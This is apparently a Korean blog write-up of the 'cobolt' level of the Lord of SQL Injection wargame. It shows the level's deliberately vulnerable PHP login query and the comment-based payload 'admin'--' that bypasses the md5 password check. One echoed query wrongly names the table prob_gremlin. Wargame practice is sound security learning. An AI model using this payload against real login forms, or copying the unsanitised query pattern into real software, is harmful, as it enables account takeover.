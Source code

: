 ```yaml
---
layout: post
title:  "los prob_cobolt"
date:   2019-08-10
excerpt: "Lord of Sql Injection"
tag:
- los
- sqli
- wargame
- webhacking
comments: true
---
```

> query : select id from prob_cobolt where id='' and pw=md5('')

~~~ php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
~~~

# Solve

* 주석을 이용하여 뒤에 md5()를 우회하면된다.
* 

### ?id=admin'--%20 

실행되는 구문 -> select id from prob_gremlin where id='admin'-- ' and pw=md5('')

## COBOLT Clear!
